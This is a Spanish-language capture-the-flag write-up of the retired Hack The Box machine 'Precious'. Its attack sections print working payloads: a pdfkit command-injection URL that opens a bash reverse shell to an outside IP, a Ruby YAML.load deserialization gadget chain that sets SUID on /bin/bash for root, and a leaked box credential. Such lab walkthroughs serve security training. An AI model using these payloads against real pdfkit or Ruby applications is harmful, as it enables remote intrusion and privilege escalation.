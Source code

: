 ```yaml
---
title: Precious Writeup
published: false
---
```


Hoy resolveremos la máquina retirada "Precious" es una máquina de hack the box de dificultad fácil.


![Precious](https://user-images.githubusercontent.com/109216235/207889455-5ddd49b1-bb86-4f89-af3e-65c44935f1f1.png)


# [](#header-1) Enumeración


Empezamos escaneando los puertos de la máquina con nmap


```nmap
sudo nmap 10.10.11.189
Nmap scan report for 10.10.11.189
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```


# [](#header-2) Vulnerabilidad


Antes de poder entras tenemos que actualizar nuestro etc/hosts para que la IP apunte a precious.htb
Despues, podríamos entrar en la página.


![image](https://user-images.githubusercontent.com/109216235/207906514-b59cd9d7-607c-4e39-a5de-cc88c267d635.png)


Viendo esto podemos crearnos un servidor con python3 para que nos cree un pdf de nuestro servidor

```python
python3 -m http.server 4444
```

![image](https://user-images.githubusercontent.com/109216235/207906825-45cbd4c1-f7e9-48de-92e8-8053d8e595b7.png)


Esto nos generará un pdf. Lo analizamos con "exiftool" y podemos ver que versión de pdfkit se utiliza


![image](https://user-images.githubusercontent.com/109216235/207907027-277bf2aa-0889-4f7d-9118-127fe9b59a28.png)


Buscamos información sobre como injectar comandos en esta máquina. En este sitio https://security.snyk.io/vuln/SNYK-RUBY-PDFKIT-2869795 encontramos una vulnerbilidad de la que nos podemos aprovechar.
Usando el ejemplo podemos manipularlo para que nos dé una revershell. Recordad que tenemos que poner en escucha "netcat"

```netcat
netcat -lnvp 4444
```

Ejemplo:
```bash
http://example.com/?name=#{'%20`sleep 5`'}
```
Revershell cambiando el ejemplo:
```bash
http://example.com/?name=#{'%20`bash -c "bash -i >& /dev/tcp/10.10.16.18/4444 0>&1"`'}
```

Este comando que hemos creado hace:
bash -c: permite introducir strigns
bash -i: Hace que la revershell sea interacitva
/dev/tcp/10.10.16.18/4444: crea la revershell cuando se ejecuten


![image](https://user-images.githubusercontent.com/109216235/207907465-d2cdd79e-7a17-4eb0-8fef-2b00fedc3b7c.png)


Dentro de la máquina podemos encontrar dentro del usuario "ruby" una carpeta oculta llamada "bundle" que contiene las credenciales de "henry"


```
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```


# [](#header-2) Escalada de privilegios


Accedemos al ssh con las credenciales de "henry"


```ssh
ssh henry@10.10.11.189
henry@10.10.11.189's password:Q3c1AqGHtoI0aXAYFH
```

Dentro de la carpeta /home/ de "henry" encontramos la user.txt y ya tendríamos la mitad de la máquina


Utilizamos ```sudo -l``` para ver que se ejecuta como root

```ssh
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Buscamos como escalar de privilegios con Ruby YAML.load. En esta página (https://staaldraad.github.io/post/2021-01-09-universal-rce-ruby-yaml-load-updated/) encontramos una vulnerabilidad. Vemos que si manipulamos el campo git-set podemos escalar de privilegios.

Ejemplo:
```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: id
         method_id: :resolve
```

Escalada cambiando el ejemplo:

```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```


No se nos puede olvidar que este script se tiene que llamar dependencies.yml y tiene que estar en la carpeta /home/ de "henry"

Ahora ejecutamos este script con ```bash -p``` y tendríamos una shell root. Buscamos la carpeta /root/ y allí encontrariamos la root.txt y habríamos completado la máquina.
